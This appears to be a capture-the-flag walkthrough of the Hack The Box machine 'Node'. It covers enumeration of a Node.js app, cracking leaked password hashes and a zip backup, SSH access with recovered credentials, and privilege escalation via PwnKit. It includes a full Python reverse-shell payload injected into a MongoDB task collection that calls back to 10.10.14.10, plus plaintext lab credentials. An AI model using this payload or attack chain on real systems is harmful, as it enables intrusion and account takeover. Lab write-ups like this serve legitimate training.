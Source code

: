 **Ping**
![[Pasted image 20240625173018.png]]

**Nmap Scans**
```
mapit 10.10.10.58
```

Nmap Default Scan
![[Pasted image 20240625173140.png]]

Nmap Service and Script Scan
![[Pasted image 20240625173253.png]]
![[Pasted image 20240625173308.png]]

Nmap All Port Scan
![[Pasted image 20240625173803.png]]

On port 3000
![[Pasted image 20240625173420.png]]

Feroxbuster
```
feroxbuster --url https://10.10.10.58:3000 -k -o feroxbuster.txt
```
![[Pasted image 20240625180513.png]]
Can't get any useful info

Will analyse the source code
![[Pasted image 20240625180557.png]]
We have lit of java script file, always look for sensitive info in .js files

As guessed, we got some sensitive info from http://10.10.10.58:3000/assets/js/app/app.js
![[Pasted image 20240625180720.png]]

Will navigate to the page http://10.10.10.58:3000/partials/admin.html
![[Pasted image 20240625180757.png]]
We got something...!

But only admin user can download the file

Will enumerate more, can get more paths in http://10.10.10.58:3000/assets/js/app/controllers/home.js
![[Pasted image 20240625182053.png]]
can see /api/user/latest

This gives us info http://10.10.10.58:3000/api/users/
![[Pasted image 20240625182217.png]]

decrypted all the hash using crackstaion https://crackstation.net/
![[Pasted image 20240625182602.png]]
Have encrypted three out of 4 hash

**Credentials**
myP14ceAdm1nAcc0uNT:manchester
tom:spongebob
mark:snowflake

Will try this creds to login
First with admin cred
![[Pasted image 20240625182948.png]]
Worked...!

Will download and analyse the content
![[Pasted image 20240625183654.png]]

After analysing the content its looks like base64 encoded, will decode it
```
cat myplace.backup | base64 --decode > backup.decoded
```
![[Pasted image 20240625183628.png]]

I have opened the file, but it is in some unsupported format, will analyse the file time now
![[Pasted image 20240625183829.png]]

It is a zip file, will unzip it
![[Pasted image 20240625183926.png]]
It is asking password

Will find password
```
zip2john backup.decoded > backup.hash
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash
```
![[Pasted image 20240625184116.png]]
Found it....! **magicword**

After unzipping, there is new directory var, will explore
![[Pasted image 20240625184516.png]]
![[Pasted image 20240625184640.png]]
Found mark's Password: mark:5AYRft73VtFpc84k



Will ssh now with marks' cred
```
ssh mark@10.10.10.58
```
![[Pasted image 20240625184903.png]]
![[Pasted image 20240625184939.png]]

Can find user.txt in tom's home directory but we don't have permissions
![[Pasted image 20240625185114.png]]

We can see pkexec in SUID 
```
find / -perm -u=s -type f 2>/dev/null
```
![[Pasted image 20240625185405.png]]

pkexec version is vulnerable
```
pkexec --version
```
![[Pasted image 20240625185429.png]]

Using mongodb to get user tom access
```
mongo -u mark -p 5AYRft73VtFpc84k localhost:27017/scheduler
```
```
show collections          \\list databse tables
db.tasks.find().pretty()   \\to list content of table tasks
```
```
db.tasks.insert({cmd: "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.10\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"})
WriteResult({ "nInserted" : 1 })   \\insert a reverse shell code in table tasks
```
![[Pasted image 20240626001318.png]]

Will set a Netcat listener
![[Pasted image 20240626001637.png]]\


Using Pkexec 
Vulnerable version I have escalated my privileges to root 

Used PwnKit
![[Pasted image 20240626001817.png]]

Root.txt
![[Pasted image 20240626001903.png]]

User.txt
![[Pasted image 20240626001938.png]]



Done with Node....:)
